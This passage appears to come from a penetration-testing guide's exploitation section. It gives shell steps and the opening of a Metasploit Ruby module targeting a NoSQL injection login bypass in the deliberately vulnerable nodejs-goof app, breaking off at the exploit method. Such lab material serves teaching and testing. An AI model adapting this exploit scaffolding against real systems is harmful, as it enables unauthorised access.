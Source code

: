 
## 4. Exploitation Phase

### 4.1 Metasploit Framework - Comprehensive Exploitation

**Objective**: Use Metasploit modules for exploitation and post-exploitation

#### Create Custom Exploit Module

1. **Create exploit template**:
```bash
cd /usr/share/metasploit-framework/modules/exploits/linux/http/
nano nodejs_goof_nosql_injection.rb
```

2. **Exploit code** (`nodejs_goof_nosql_injection.rb`):
```ruby
##
# This module requires Metasploit: https://metasploit.com/download
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'nodejs-goof NoSQL Injection Authentication Bypass',
        'Description' => %q{
          This module exploits a NoSQL injection vulnerability in the
          nodejs-goof application login endpoint to bypass authentication.
        },
        'Author' => ['Red Hat Security Team'],
        'License' => MSF_LICENSE,
        'Platform' => 'unix',
        'Arch' => ARCH_CMD,
        'Targets' => [['Automatic', {}]],
        'DefaultTarget' => 0
      )
    )

    register_options(
      [
        Opt::RPORT(3001),
        OptString.new('TARGETURI', [true, 'Base path', '/']),
        OptString.new('USERNAME', [true, 'Username for injection', 'admin@snyk.io'])
      ]
    )
  end

  def check
    res = send_request_cgi(
      'uri' => normalize_uri(target_uri.path, 'login'),
      'method' => 'GET'
    )

    return CheckCode::Unknown unless res
    return CheckCode::Appears if res.code == 200
    CheckCode::Safe
  end

  def exploit
```